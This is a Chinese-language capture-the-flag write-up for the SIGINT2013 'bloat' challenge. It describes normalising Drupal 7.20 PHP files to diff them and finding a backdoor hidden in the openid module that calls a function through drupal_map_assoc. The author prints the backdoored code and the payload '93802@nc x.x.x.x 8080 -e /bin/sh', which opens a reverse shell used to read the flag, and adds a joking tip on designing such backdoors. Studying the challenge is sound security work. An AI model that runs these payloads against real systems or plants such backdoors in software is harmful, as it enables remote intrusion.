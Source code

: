 ```yaml
---
layout: post
title: "SIGINT2013 cloud200 bloat"
description: "SIGINT2013 cloud200 bloat hunt for backdoor"
category: "writeup"
tags: ["SIGINT2013", "web", "writeup"]
---
```

{% include JB/setup %}
#SIGINT2013 cloud200 bloat

Description

    My friend set up this site for me. I don't trust him.
    He installed a backdoor for sure. Can you find it?
    He just wrote me, what this system is using.
    Somehow it looks diff-erent o_O:

[cdd-7.20.tar_0.gz](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/cdd-7.20.tar_0.gz)

[source_code.tar.bz2](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/source_code.tar.bz2)

这道题比赛的时候只有一个队伍做出来。虽然只有200分，但过程比较复杂。
我本来预期花一两个小时就能解决这个问题，结果却耗费了四个小时。

首先也是最关键的问题就是如何找到后门。
这个网站使用的是开源系统drupal 7.20，还附带了一些插件。但问题并不是直接diff那么简单。
官方的源码附有详细的注释，但修改版中将所有注释全部删掉了，还把代码风格从K&R风格改成了一种很混乱的样子，甚至将所有的变量名替换成了奇奇怪怪的东西。

手工查找人眼识别几乎是不可行的。必须想其它办法。

比赛的时候卡在其他题上面了，没有时间仔细看这道题。事后才想起来可以写一个文本处理器，把php文件全部“格式化”一遍：去掉注释+统一格式+统一变量命名。

[PHP_filter.cpp](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/filter.cpp)

处理注释是最麻烦的一步，要判断引号和各种注释符，最终版本的代码也还有瑕疵。
因为只需要比对出文件的不同之处，所以不需要维护代码风格和变量名。为了统一，我把所有可能换行的`{};,:()`全都强行换行，又将所有变量名指定成了$000。

用这个非常挫的文本处理器半自动操作，效率已经比人眼识别提升很多，而且出错率降低很多。
但是将所有`.php`文件对比之后并没有什么收获。
再去查看源码中的文件，发现`.php`的文件其实并不多。很多插件都是以`.inc\.module`这样的后缀结尾的。

再扫描一遍`.inc`后缀的文件，果然发现有一个文件`./bloat/modules/openid/openid.inc`略有不同。

    10 define('OPENID_DH_DEFAULT_GEN', '86');
    
而原版中的openid是

    22 /**
    23  * Diffie-Hellman generator; used for Diffie-Hellman key exchange computations.
    24  */
    25 define('OPENID_DH_DEFAULT_GEN', '2');
    
这是跟用户认证有关的一个常量。修改这种值也许会造成认证系统的一些缺陷。
继续看代码，我有了更大的收获。

在`./bloat/modules/openid/openid.module`中代码逻辑与原版有明显的不同。

    197 function openid_login_validate($quench, &$tickers)
    198    {
    199 $return_to = $tickers['values']['openid.return_to'];
    ...
    204   openid_begin($tickers['values']['openid_identifier'], $return_to, $tickers['values']);
    ... 
    207      function openid_begin($imaginably, $overlay = '', $termination = array())
    ...
    212       if(strpos($imaginably, '@'))
    213   {
    214    list($user, $host) = explode('@', $imaginably, 2);                                                                                                                                         
    215 }
    216 else
    217     {
    218      $user = false;
    219      $host = false;
    220      }
    
`214    list($user, $host) = explode('@', $imaginably, 2);`中`$imaginably`正是用户提交的认证用户名。
再来看看这些变量做了什么。

    248 $user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
    249     $service['uri'] = drupal_map_assoc(array($host), $user_enc);
    259   openid_redirect($service['uri'], $ramparts);
    
这里用到了修改过的常量`OPENID_DH_DEFAULT_GEN`。
drupal_map_assoc()返回的是数组，所以在redirect过程中会被强转成字符串"Array"，最后在跳转的时候会出错。
而这个[drupal_map_assoc()](https://api.drupal.org/api/drupal/includes%21common.inc/function/drupal_map_assoc/7)则暗藏玄机。
根据官方文档，drupal_map_assoc()会把第一个参数$array中的每个参数依次传入第二个参数$callable执行并返回一个数组。
这里藏着一个命令执行后门啊。。。。
只要`is_callable($user_enc)`就能直接执行`$user_enc($host)`。
而`$user_enc`是从`$user * OPENID_DH_DEFAULT_GEN`解出来的。
因为`OPENID_DH_DEFAULT_GEN`的限制，所以这个`$user_enc`必须是按照base64解成整形之后能整除86（中间还有一些过程）。

现在要做的就是找一个合适的函数，恰好能满足这个条件了。

    slipper@NULL:~/CTF/SigintCTF2013/cloud/bloat/bloat/modules/openid$ php -a
    Interactive shell
    
    php > include './openid.inc';
    php > var_dump(is_callable('system'));
    bool(true)
    php > var_dump(is_callable('systeM'));
    bool(true)
    php > echo _openid_dh_base64_to_long('system')/OPENID_DH_DEFAULT_GEN ."\n";
    34952922.72093
    php > echo _openid_dh_base64_to_long('System')/OPENID_DH_DEFAULT_GEN ."\n";
    14664196.395349
    php > echo _openid_dh_base64_to_long('SYstem')/OPENID_DH_DEFAULT_GEN ."\n";
    14347185.046512
    php > echo _openid_dh_base64_to_long('eval')/OPENID_DH_DEFAULT_GEN ."\n";
    93703.872093023
    php > echo _openid_dh_base64_to_long('exec')/OPENID_DH_DEFAULT_GEN ."\n";
    93802


因为这里的is_callable是不区分大小写的，本来我还以为后门作者刻意选择了大小写混用的函数名，本来差点要写程序暴搜的。还好偶然发现exec正好符合要求。^_^

**如果以后要用这种方法做后门，记得一个有大因子的大小写混用的函数名哦。**

接下来就是命令执行了。
可是用`93802@echo a > a`结果并没有生成文件a。似乎对网站的目录木有写权限。
如果要获取flag，必须要有传递信息的途径。
唯一能想到的方法就只有反连了。
幸运的是服务起的nc有-e选项，正好可以交互，不然还得一次一次地执行命令。

用`93802@nc x.x.x.x 8080 -e /bin/sh`反弹，本地用`nc -l 8080`监听。

    pwd
    /var/www
    ls -la ./
    total 7904
    drwxr-xr-x  9 root root    4096 Jul  5 01:23 .
    drwxr-xr-x 14 root root    4096 Jul  5 01:53 ..
    -rw-r--r--  1 root root   75028 Mar  7 17:26 CHANGELOG.txt
    -rw-r--r--  1 root root    1481 Mar  7 17:26 COPYRIGHT.txt
    ...
    -rw-r--r--  1 root root      34 Jul  5 01:01 ___F_L_A_G___
    ...
    cat ___F_L_A_G___
    not here, see /flag on filesystem
    cat /flag
    SIGINT_d4b0844c

看来果然是木有写权限～～

